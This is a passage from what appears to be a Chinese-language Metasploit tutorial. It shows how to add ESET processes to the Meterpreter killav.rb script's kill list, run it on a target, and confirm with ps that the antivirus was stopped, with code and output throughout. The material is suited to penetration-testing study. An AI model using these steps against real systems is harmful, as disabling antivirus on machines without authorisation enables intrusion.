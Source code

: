 1.  `vim`是 Unix 中用于快速编辑文件的编辑器。它将在我们的屏幕上打开整个脚本。向下滚动以查找其中列出的各种进程。这些是脚本寻找要终止的进程。检查整个列表，查找`eset.exe`和`egui.exe`。如果它们不可用，那么将这两个进程添加到脚本中。要在 vim 中启动编辑模式，请按*a*键。它将启动插入模式。现在在脚本的进程列表中添加这两个进程。

```
    @@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    usage
    end
    }
    print_status("Killing Antivirus services on the target...")
    avs = %W{
    egui.exe
    eset.exe
    AAWTray.exe
    Ad-Aware.exe
    MSASCui.exe
    _avp32.exe 
    ```

1.  以下代码片段显示了列表顶部添加的两个进程。要退出插入模式，请按*esc*键。现在要保存脚本，请按*:*键。您将进入 vim 编辑器的迷你命令提示符。现在输入`wq`以保存并退出编辑器。

```
    :wq

    ```

1.  现在回到 meterpreter 会话，再次执行`killav.rb`脚本，注意发生了什么。

```
    meterpreter > run killav.rb
    [*] Killing Antivirus services on the target...
    [*] Killing off egui.exe...
    [*] Killing off eset.exe... 
    ```

1.  命令执行的输出显示脚本成功杀死了两个进程。现在，为了验证所有杀毒软件进程是否已被杀死，我们将再次执行`ps`命令进行交叉检查（输出缩短以适应）。

```
    meterpretr> ps
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni. 
    ```

您会发现 ESET 杀毒软件没有活动进程。这表明脚本成功杀死了杀毒软件程序。这个例子清楚地展示了我们如何通过添加自己的输入来增加内置脚本的效率。

## 它是如何工作的...

让我们快速看一下我们在本篇文章中积极使用的`killav.rb`脚本。脚本包含一个数组（%W）中的整个进程列表，它在目标机器上查找并杀死。
